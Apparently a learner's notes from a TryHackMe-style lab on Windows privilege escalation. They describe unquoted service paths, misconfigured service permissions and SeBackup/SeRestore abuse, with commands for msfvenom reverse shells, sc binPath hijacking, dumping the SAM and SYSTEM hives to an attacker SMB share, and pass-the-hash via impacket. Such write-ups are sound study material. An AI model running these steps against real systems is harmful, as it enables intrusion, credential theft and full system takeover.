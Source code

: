### Unquoted Service Paths
When spaces are present in a path name for a service, the command becomes ambiguous. Ex. "`disk sorter enterprise`" will look for a path to a "`..\Disk.exe`" or "`..\Disk Sorter.exe`" or "`..\Disk Sorter Enterprise\..\disksrs.exe`" as Service Control Manager will try to help the user by parsing the non-literal.

If a path tested before the correct one can be written to (typically not `\Program Files` or `\Program Files (x86)`) then we can insert an exploit service exec.
An admin may put services in a non-standard, writeable path :)
Example.
1. Admin installed Disk Sorter to `C:\MyPrograms\MyPrograms` which we `icacls` and see it inherits C dirs AD and WD privileges, meaning we can add sub dirs and files
2. Generate a reverse shell payload with `msfvenom`, `-f exe-service` and upload to target with python server
3. `wget` the hosted file and move it to `MyPrograms` to be searched and executed before `Disk Sorter Enterprise`, we do this by naming it `Disk.exe`
4. `icacls Disk.exe /grant Everyone:F` to give full perms on the new payload
5.  Open a listener on local and then stop and start the service `sc start/stop "disk sorter enterprise"`
6. Get shell on local :)

### Insecure Service Permissions
Even if the service executable DACL (Discretionary Access Control List) is locked down, the service itself may not be, meaning we can modify the config of the service. We can point it to any executable we need to run and with any account.
`Sysinternals` offers `accesschk` which gives service DACLs
Example.
1. `acesschk64.exe -qlc thmservice` checks thmservice's DACL, revealing that Users has SERVICE_ALL_ACCESS, so any user can reconfig the service
2. Build another `exe-service` reverse shell with `msfvenom`, and transfer to the system in a writable dir (I used `C:\Users\thm-unpriv`)
3. Grant full permissions to this .exe `icacls ...`
4. `sc config THMService binPath= "C:\Users\thm-unpriv\shell.exe" obj= LocalSystem` to change the services bin path to our new executable and tell it to run as the LocalSystem (root)
5. `sc stop THMService` and `sc start THMService`
6. Get shell

# Abusing Dangerous Privileges
### Windows Privileges
Rights given to users to perform system-related tasks (not the same as DACL controls). 
`whoami /priv`

### SeBackup / SeRestore 
Gives full read and write to any file, ignoring DACL
Ex. 
1. login to user who is in "Backup Operators" group, run `cmd.exe` as Administrator to activate SeBackup/Restore rights
2. `reg save hklm\system C\Users\THMBackup\system.hive` and equivalent for `hklm\sam` to backup SAM and SYSTEM hashes to the drive
3. Using SMB server with a network share(or other method), transfer files to local system
	- on local: `mkdir share` -> `python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`, creates a share, "public", pointing to "share" directory using Windows user creds
	- on target: `copy C:\Users\THMBackup\sam.hive \\LOCAL_IP\public\ ` (and for `system.hive`)
4. Using [[impacket]], dump user's password hashes
	1. `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL` 
5. Using impacket again, to perform a Pass-the-Hash login 
	1. `python3.9 /opt/impacket/examples/psexec.py -hashes ADMIN_HASH_HERE administrator@TARGET_IP`
6. Gain admin shell

